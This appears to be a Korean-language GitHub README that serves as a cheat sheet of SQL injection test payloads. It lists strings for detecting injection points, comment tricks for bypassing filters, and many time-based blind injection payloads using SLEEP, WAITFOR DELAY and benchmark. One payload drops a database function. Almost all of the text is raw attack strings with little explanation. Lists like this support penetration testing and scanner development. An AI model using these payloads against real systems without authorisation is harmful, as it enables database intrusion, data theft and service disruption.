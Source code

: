 # SQLInjection
SqIinjection 테스트 코드 

탐지 점검
```
&apos;
'
```

```
or 1=1 -- 
' or 1=1 -- 
" or 1=1 -- 
1 and 1=2 -- 
```
'//AND//'1%'='0 
```

주석으로 우회 
```
'/**/AND/**/'1%'='0
```

시간 기반 테스트 
```
'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```

```
';WAITFOR DELAY '0:0:5'--
```

테스트
```
'||(SELECT 0x615a636e FROM DUAL WHERE 7192=7192 AND (SELECT 4865 FROM (SELECT(SLEEP(5)))VDbe))||'
```

```
`=`1` AND ELT(1337=1337 AND ELT(1337=1337,SLEEP(5*5)))|[1
```

OR x=y     

HAVING 1=0

AND 1=0


AND 7=9 AND (5=5
 AND 7=9 AND ('5=5
 AND 7=7 AND 'Z'='Y
 AND 7=7 AND ('Z'='Y
 WHERE 1=1 AND 1=0

AND SLEEP(15)
+ SLEEP(10) + '
' AnD SLEEP(15) ANd '1
(SELECT * FROM (SELECT(SLEEP(15)))ecMj)
+benchmark(3200,SHA1(1))+'
ORDER BY SLEEP(15)
'&&SLEEP(15)&&'1
0' AND SLEEP(15)
';WAITFOR DELAY '0:0:30'--
'+WAITFOR+DELAY+'0:0:10'--+-"

(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
'+(select*from(select(sleep(7*7)))a)+'
 OR 3=3 AND ('W' LIKE 'Y
AND (SELECT * FROM (SELECT(SLEEP(15)))bAKL) AND 'vRxe'='vRxe
IF(7=4) SELECT 7 ELSE DROP FUNCTION xcjl--
%' AND 1=8 AND '%'='

